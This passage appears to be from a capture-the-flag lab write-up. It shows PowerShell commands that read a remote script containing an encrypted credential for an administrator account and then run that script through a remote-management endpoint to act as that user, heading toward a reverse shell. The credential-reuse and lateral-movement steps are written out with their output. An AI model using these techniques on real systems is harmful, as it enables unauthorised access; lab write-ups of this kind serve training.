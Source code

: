 Let's read it. It seems that it's a script run as similar method as we did as `jmorgan`'s credential.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

$passwd = $securepasswd | ConvertTo-SecureString

$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

We can try the same to run commands as `jmorgan`.

### Open reverse shell as `jmorgan`

It seems that `jmorgan` belongs to `Acute-PC01`'s `Administrators` group.

```powershell
PS C:\Utils> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain Members
-------------------------------------------------------------------------------
ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
The command completed successfully.
```

I tried to reproduce it, but failed initially.

```powershell
PS C:\Utils> $passwd = $securepasswd | ConvertTo-SecureString ConvertTo-SecureString : Key not valid for use in specified state.

At line:1 char:27
+ $passwd = $securepasswd | ConvertTo-SecureString
+                           ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicException
    + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.PowerShell.Commands.ConvertToSecureStringCommand
```

I thought I could run it as `imonks` instead, and it worked.

```yaml
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }

PSComputerName       : ATSSERVER
RunspaceId           : 96b3c263-fbe1-447e-8af0-fb0306c9e936
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.ObjectId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000-0000-100000000000}\"
PassThroughClass     : 
PassThroughIds       : 
PassThroughNamespace : 
PassThroughServer    : 
UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
AllocationUnitSize   : 4096
DedupMode            : 4
DriveLetter          : 
```